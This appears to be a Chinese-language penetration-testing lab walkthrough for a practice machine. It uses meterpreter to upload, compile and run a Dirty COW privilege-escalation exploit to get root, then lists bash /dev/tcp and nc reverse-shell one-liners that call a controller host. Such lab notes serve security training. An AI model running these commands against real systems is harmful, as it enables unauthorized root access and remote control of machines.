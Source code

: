 发现有脏牛提权的漏洞（还有其他很多漏洞）

![image-20230927105449935](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230927105449935.png)

exit到meterpreter上传dirtcow.cpp提权脚本

```
meterpreter > upload /root/dcow.cpp /tmp/dirtcow.cpp
```

进shell

```
meterpreter > shell
Process 6795 created.
Channel 4 created.
pwd
/var/www/html
cd /tmp
ls
1.sh
dirtcow.cpp
python -c 'import pty; pty.spawn("/bin/bash")'	#该命令用于美化shell终端
www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dirtcow.cpp -lutil		#编译，生成一个dcow文件
www-data@lampiao:/tmp$ ls
ls
1.sh  dcow  dirtcow.cpp
www-data@lampiao:/tmp$ ./dcow		#./运行dcow
./dcow
Running ...
```

![image-20230927110331763](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230927110331763.png)

成功拿到root密码，su - root成功



# 正反shell

反向shell

```
bash反弹shell

控制端： nc -lvp 4444 
被控制端： bash -i >& /dev/tcp/控制端ip/4444 0>&1 
```



```
nc反弹shell

控制端：
nc -lvp 4444
被控制端：
nc hkIP 4444 -e /bin/bash
```
